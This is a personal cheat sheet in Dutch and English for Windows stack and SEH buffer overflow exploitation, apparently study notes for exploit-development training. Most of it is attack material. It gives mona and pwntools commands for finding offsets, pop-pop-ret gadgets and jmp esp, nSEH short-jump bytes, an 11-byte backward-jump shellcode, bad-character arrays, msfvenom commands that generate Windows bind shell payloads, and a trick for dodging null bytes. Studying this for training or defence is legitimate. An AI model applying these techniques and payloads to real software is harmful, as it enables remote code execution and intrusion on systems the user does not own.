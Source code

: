 ## PWNTOOLS
### PWN TOOLS pattern create:
```
cyclic 6000
cyclic -l 0x6D616169
```

## Mona
### pattern_create
```
!mona pc 2500 # lengte van de pattern
Mona pattern_offset
!mona po 42326742 # waarde van EIP
Mona vindt pop pop ret
!mona seh 
!mona seh -cpb '\x00'
Mona egg hunter
!mona egg -t "w00t"
!mona find -type asc -s "w00t"
Jump over nSEH
b"\xeb\x06\x90\x90" # JMP 6 bytes forward

0x00 tot 7F = 0 - 128 vooruit 
0x80 tot FF = 0 - 128 achteruit MAAR ANDERSOM
```
dus 0xFF 1 byte backwards and 0x80 = 128 bytes back


# Conditional Jump die altijd waar is over (nSEH)
\x75\x08         ; JNZ SHORT [+0x10] = Jump if ZF is not 0
\x74\x06         ; JZ SHORT [+0x8] = Jump if ZF is 0


Als je een heel stuk terug wil springen in je buffer kun je de volgende shellcode gebruiken, deze springt 786 bytes terug (let op wel SEH en nSEH er voor uiteraard):
```
"\x59\x59\x59\xfe\xcd\xfe\xcd\xfe\xcd\xff\xe1"   # 11 bytes, pop ecx * 3, dec ch (take 256 from ecx) * 3, jmp ecx
```

The code is shown below, and works based on the fact that after taking the original POP, POP, RETN to jump into the four byte space before the SEH Overwrite, another pointer to the same memory location exists three places down on the stack. We basically get this memory address into the ECX register, decrement the CH register by 1 three times (which has the affect of decreasing ECX by a total of 768 or three times 256 since CH represents the second least significant byte of ECX), and then JUMP to ECX. This moves us back 768 bytes from the location where the original POP, POP, RETN instruction lands, and gives us more than enough space to use most Windows shellcode. At 11 bytes it is also very compact and will fit into very small buffer areas.
```
"\x59\x59\x59\xfe\xcd\xfe\xcd\xfe\xcd\xff\xe1"
```
```
11 bytes
POP ECX \x59
POP ECX \x59
POP ECX \x59
DEC CH \xfe\xcd
DEC CH \xfe\xcd
DEC CH \xfe\xcd
JMP ECX \xff\xe1
```



Bad chars:
```
• 0x00 – is a common string terminator. 
• 0x0a, 0x0d – carriage returns, and line feeds might often be treated as line terminators, especially in software that makes use of HTTP or FTP protocols. 
• 0xff – this byte is often interpreted as EOF (End Of File) .
```

jmp esp zonder mem adres beginnende met 00
```
!mona jmp -r esp -cpb '\x00'
```

“Each time a POP <register> occurs, ESP is moved towards higher addresses by one position (1 position = 4 bytes for a 32-bit architecture). 
 Each time a RET occurs, the contents of the address ESP points at are put in EIP and executed (also ESP is moved, but this is not important here).”

Short jumps
https://thestarman.pcministry.com/asm/2bytejumps.htm

Bind shell
```
msfvenom -p windows/shell_bind_tcp LPORT=12345 -f python -v shellcode -b '\x00' EXITFUNC=thread
nc -vn 127.0.0.1 12345
msfvenom -p windows/shell_bind_tcp LPORT=443 LHOST=192.168.178.31 -f python -v shellcode -b '\x00\x0a\x0d\x20\x25' EXITFUNC=thread
```
  
Mona create bytearray
```
!mona ba -cpb '\x00\x0a\x0d\x20\x25'
  
bad_chars  = b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
bad_chars += b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
bad_chars += b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
bad_chars += b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
bad_chars += b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
bad_chars += b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
bad_chars += b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
bad_chars += b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```
Mona compare
```
!mona compare -f bytearray.bin -a [address where array begins]
!mona compare -f bytearray.bin -a 0180f960
```

 Set a breakpoint on all current SEH Handler function pointers
```
!mona bpseh
```
 
PWN tools
```
from pwn import asm

asm('mov eax, 0') # => '\xb8\x00\x00\x00\x00'
```
 
Truuk voor bijv null byes, wellicht handig
```   
0x00636578 # (\x00cex) 
+ 0x01010101 # Deze tellen er bij op
-------------------------
   0x01646679
```

in assembly dus:
``` 
mov reg, 0x01646676
sub  reg, 0x01010101
push reg # nu staat ie op de stack met de null ;)
```
